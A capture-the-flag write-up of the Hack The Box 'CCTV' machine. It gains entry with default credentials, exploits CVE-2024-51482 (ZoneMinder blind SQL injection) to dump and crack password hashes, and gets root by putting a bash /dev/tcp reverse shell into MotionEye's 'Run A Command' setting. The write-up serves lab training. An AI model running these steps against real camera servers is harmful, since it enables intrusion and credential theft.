



# HTB: CCTV (Easy)

> **Hack The Box Writeup**
>
> **Machine:** CCTV  
> **Difficulty:** Easy  
> **Operating System:** Linux  
> **Date Solved:** 2026-06-01

---

# Executive Summary

| Field | Value |
|---------|---------|
| Machine Name | CCTV |
| OS | Linux |
| Difficulty | Easy |
| Initial Access | Default Credentials |
| Vulnerability | CVE-2024-51482 (ZoneMinder Blind SQL Injection) |
| Credential Access | Password Hash Extraction |
| Privilege Escalation | MotionEye Command Execution |
| Final Access | Root Shell |

---

# Attack Path

```text
Reconnaissance
    ↓
ZoneMinder Login Portal
    ↓
Default Credentials (admin:admin)
    ↓
ZoneMinder Version Identification
    ↓
CVE-2024-51482 Blind SQL Injection
    ↓
Credential Extraction
    ↓
Password Cracking
    ↓
SSH Access as mark
    ↓
MotionEye Enumeration
    ↓
Port Forwarding
    ↓
MotionEye Admin Access
    ↓
Run A Command Abuse
    ↓
Root Shell
```

---

# 1. Enumeration & Reconnaissance

## Nmap Scan

```bash
sudo nmap -sC -sV -p- -sS 10.129.244.156
```

### Results

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
80/tcp open  http    Apache httpd 2.4.58
```

Add the target domain:

```bash
echo "10.129.244.156 cctv.htb" | sudo tee -a /etc/hosts
```

---

# 2. Web Enumeration

Browse to:

```text
http://cctv.htb
```

The website presents a SecureVision landing page.


A **Staff Login** button is available.

Testing default credentials:

```text
admin:admin
```

Authentication succeeds and grants access to ZoneMinder.


---

# 3. ZoneMinder Version Identification

The dashboard reveals:

```text
v1.37.63
```

Research identifies a known vulnerability affecting this version:

```text
CVE-2024-51482
```

ZoneMinder Blind SQL Injection.

---

# 4. Exploiting CVE-2024-51482

## Exploit Setup

```bash
# Clone the repository
git clone https://github.com/BridgerAlderson/CVE-2024-51482.git
cd CVE-2024-51482

# Make the script executable
chmod +x CVE-2024-51482.py

# Install required dependencies
pip3 install requests
```

## Verify Vulnerability

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --test
```

The target is confirmed vulnerable.

## Dump Database Credentials

```bash
python3 CVE-2024-51482.py -i cctv.htb -u admin -p admin --dump zm Users "Username,Password"
```

Output:

```text
[*] Row 1: {'Username': 'admin', 'Password': '$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm'}
[*] Row 2: {'Username': 'mark', 'Password': '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.'}
[*] Row 3: {'Username': 'superadmin', 'Password': '$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m'}
```

---

# 5. Password Cracking

Save the extracted hash:

```bash
echo '$2y$10$prZGnazejKcuTv5bKNex<SNIP>Qaok0hq07LW7AJ/QNqZolbXKfFG.' > mark.hash
```

Crack it with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt mark.hash
```

The password for **mark** is recovered.

---

# 6. SSH Access

```bash
ssh mark@cctv.htb
```

---

# 7. MotionEye Enumeration

Forward the internal service:

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

Inspect MotionEye configuration:

```bash
cat /etc/motioneye/
```

```text
camera-1.conf
motion.conf
motioneye.conf
```

```bash
cat /etc/motioneye/motion.conf
```

Interesting entries:

```text
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
```

---

# 8. Accessing MotionEye

Open:

```text
http://localhost:8765
```

Login using:

```text
Username: admin
Password: 989c5a8ee87a0e9521ec81a79187d162109282f0
```



---

# 9. Privilege Escalation

After login, navigate to **File Storage**.



Enable **Run A Command** and enter:

```bash
bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1'
```

Apply the configuration.

Navigate to **Still Images**.



Configure:

```text
Capture Mode: Interval Snapshots
Snapshot Interval: 1 Second
```

Start a listener:

```bash
nc -nvlp 9001
```

Click **Apply**.

A reverse shell is received as root.

---

# 10. Root Shell

Retrieve the user flag:

```bash
cat /home/sa_mark/user.txt
```

Retrieve the root flag:

```bash
cat /root/root.txt
```

---

# Key Findings

| Finding | Impact |
|-----------|-----------|
| Default credentials enabled | Initial access |
| ZoneMinder v1.37.63 | Vulnerable to CVE-2024-51482 |
| Blind SQL Injection | Credential extraction |
| Password hash disclosure | Account compromise |
| MotionEye credentials stored in configuration | Administrative access |
| Run A Command feature | Remote command execution |
| MotionEye running with elevated privileges | Root shell |

---

# Lessons Learned

- Always test common default credentials.
- Version disclosure can lead directly to public exploits.
- Blind SQL injection remains highly impactful.
- Configuration files frequently contain reusable credentials.
- Internal monitoring systems often expose privileged functionality.

---

# Flags

## User Flag

```bash
cat /home/sa_mark/user.txt
```

## Root Flag

```bash
cat /root/root.txt
```

---

**Machine:** CCTV  
**Difficulty:** Easy  
**Status:** Owned
